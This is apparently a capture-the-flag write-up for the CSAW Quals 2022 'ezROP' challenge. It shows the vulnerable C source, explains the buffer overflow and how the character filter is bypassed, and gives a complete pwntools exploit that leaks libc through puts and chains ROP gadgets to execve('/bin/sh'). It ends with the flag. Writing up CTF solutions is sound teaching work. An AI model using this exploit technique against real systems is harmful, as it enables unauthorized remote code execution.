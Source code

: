# CSAW Quals 2022 - ezROP Writeup

# Challenge Description
```
This is a simple buffer overflow challenge, but I wrote it in a reversed way :)

$ nc pwn.chal.csaw.io 5002

Category: pwn
```
[Challenge Executable File](https://ctf.csaw.io/files/5f324cea90cc85f52ba2b38c8e7acec3/share.zip?token=eyJ1c2VyX2lkIjo3NzIsInRlYW1faWQiOm51bGwsImZpbGVfaWQiOjE4MX0.YyS7kw.uSAnR-8yZSm6O_d2SaEwoiLIr14)

# TL;DR
This is a classing **Return Oriented Programming** (ROP) challenge especially suited for first-timers in stack buffer overflow exploitation using ROP techniques. The challenge had a buffer overflow that allowed me to take control of the return address. Then I leaked address of `puts` and using that I got the coveted *libc base address*. In the next stage, all I had to do was hijack the program flow to execute `execve("bin/sh", 0, 0)` and voila! I got the shell. After that it was just a matter of reading the flag from the shell.

[The final exploit code in python](#final-exploit).

# Resources for understanding the solution
To understand how the solution works, one needs to have a solid understanding of ROP basics. To get a gentle introduction on basics of ROP, check out these two resources: [What is the GOT - CTF 101](https://ctf101.org/binary-exploitation/what-is-the-got/) & [What is ROP - CTF 101](https://ctf101.org/binary-exploitation/return-oriented-programming/). Next, when you've got a bit of hold on ROP, its time to know how one can exploit a buffer overflow vulnerability using that. Can check out [ROP Chaining: Return Oriented Programming - Red Teaming Experiments (ired.team)](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/rop-chaining-return-oriented-programming) to get a feel of this powerful exploitation technique. 

If you've gone through all these resources that I mentioned, then its time to make ur life a bit better by introducing *pwntools* using which you can easily build ROP chains and execute a successful attack without having to find and calculate all the nifty details. You'll find the *pwntools* documentation involving ROP in here: [pwntools-tutorial/rop.md (github.com)](https://github.com/Gallopsled/pwntools-tutorial/blob/master/rop.md). I'll use *pwntools* to mount the attack but I strongly recommend checking out the previous resources I mentioned to know exactly what's happening behind the scene cz *pwntools* abstracts away most of the raw and low-level technical details.

# Solution
For this challenge, we're given both the source code and the binary file. Having source code makes life a lot easier. The source code is following:

```C
#include <stdio.h>
#include <ctype.h>

int init(){
    fclose(stderr);
    setvbuf(stdin,  0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
}

int check(char *s){
    char *ptr = s;
    
    while(*ptr!=0)
    {
        if(*ptr=='\n')
        {
            *ptr = 0; break;
        }
        if(isalpha(*ptr) || *ptr==' ')
            ptr++;
        else
        {
            puts("Hey Hacker! Welcome to CSAW'22!");
            exit(1);
        }
    }
    printf("Nice to meet you, %s! Welcome to CSAW'22!\n",s);
    return 1;
}

char * str1 = "My friend, what's your name?";
void readn(char * buf, size_t len){
    if(read(0,buf,len)<=0)
        exit(1);
    return ;
}

void vul(void *buf){
    size_t rdi = 0x00000000004015a3;
    size_t rsi = rdi-2;
    size_t rop[0x100]; 
    size_t ct = 0 ; 
    memset(rop,0,sizeof(rop));

    rop[ct++] = buf+0x70; // real ret address
    rop[ct++] = rdi;
    rop[ct++] = str1;
    rop[ct++] = puts;

    rop[ct++] = rsi;
    rop[ct++] = 0x100; // rsi
    rop[ct++] = 0x999; // Pad

    rop[ct++] = rdi; 
    rop[ct++] = buf; // rdi

    rop[ct++] = readn;

    rop[ct++] = rdi;
    rop[ct++] = buf;
    rop[ct++] = check;

    rop[ct++] = 0x40152d;

    rop[0x104] = rop;
    return ;
}

int main(){
    char buf[100];
    init();
    vul(buf);
}
```
From the code, we can observe that the vulnerability is in the `vuln()` function (line no. 40) where it takes a buffer of size 100 as input but in the `readn()` function (called by`vuln()`) the length of the input to read is specified as 0x100 (256 in decimal). And thats our point of overflow. 

Next, we find the offset of return pointer using `gef`'s pattern search mechanism.

![[Pasted image 20220917035124.png]]
![[Pasted image 20220917035315.png]]
![[Pasted image 20220917035453.png]]
So the return pointer is just after offset 120 i.e. we need to feed 120 bytes of junk data before our actual payload. One thing we need be careful about here is that our payload will have addresses to different locations within libc which are not alphabets. In lines 24-26 (the `else` block), the code will exit if the input contains any non-alphabet character other than spaces. But we don't want the program to exit. So what do we do? We make use of the `if` condition (lines 16-18) by adding a newline after the junk input so that the `check()` function returns to the callee function.

Also while interacting with the challenge binary, care should be taken to properly read the responses before sending the payloads. Finally, we build the ROP chain, get libc leaks in first iteration and get the `execve()` call in second iteration which popped a shell.

## Final Exploit

```python
#!/usr/bin/env python3

from pwn import *

context.arch = 'amd64'

  
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
e = ELF("./ezROP")
rop = ROP(e)

offset = 119
padding = b'A' * offset + b'\x0A' # adding a newline so that the check() function doesn't exit

p = remote('pwn.chal.csaw.io', '5002')

# p = process(e.path)
# gdbscript = '''
# set follow-fork-mode child
# break *0x401533
# continue
# '''
# p = gdb.debug(e.path, gdbscript=gdbscript)

# get program response

print(p.recvuntil('?'))
p.recvline()
  
def get_address(func_name):
	FUNC_GOT = e.got[func_name]
	  
	# build rop chain to leak libc address
	rop.raw(padding)
	rop.call('puts', [FUNC_GOT])
	rop.call('main')
	
	# check rop chain
	# print(rop.dump())  
	
	# send rop chain
	p.sendline(rop.chain())  
	
	# get program response
	print(p.recvline())  
	
	# now comes the leak
	# remove trailing newline
	leak = p.recvline().rstrip(b'\n')
	leak = u64(leak.ljust(8, b'\x00'))
	
	log.info(f"Leaked libc address, {func_name}: {hex(leak)}")
	  
	# set libc base
	libc.address = leak - libc.symbols[func_name]
	
	log.info(f"libc base: {hex(libc.address)}")  


get_address("puts")

# get program response
print(p.recvline())

# build rop chain to call /bin/sh
rop2 = ROP([e, libc])  
BINSH = next(libc.search(b"/bin/sh\x00"))
rop2.raw(padding)
rop2.execve(BINSH, 0, 0)
rop2.exit() 

# send second rop chain to get the shell
p.sendline(rop2.chain())
print(p.recvline())

# the shell should be live now!
p.interactive()
```


## Flag
`flag{53bb4218b851affb894fad151652dc333a024990454a0ee32921509a33ebbeb4}`
